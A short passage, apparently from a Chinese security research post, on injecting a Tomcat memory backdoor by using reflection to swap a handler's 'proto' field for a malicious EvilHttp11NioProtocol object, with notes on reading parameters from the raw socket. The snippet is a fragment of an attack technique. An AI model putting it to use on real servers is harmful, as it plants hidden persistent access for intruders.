 ## 代码思路

将原来的 proto 字段替换成恶意 proto 对象（EvilHttp11NioProtocol 对象）。

```bash
Object obj = getTheHandler();
Field field = obj.getClass().getDeclaredField("proto");
makeSettable(field);
// 修改
field.set(obj, new EvilHttp11NioProtocol());
```

## 参数传入的问题

因为在这个地方，Request 对象还没有初始化，所以在这里拿到 socket 去获取到传入的参数。但是回显的问题暂时无法解决。发现在这里就可以看到传入的报文了。

[![](assets/1701606835-74a2317aeb16d6d8bf26007c73bcc063.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231101162919-c0494314-7890-1.png)
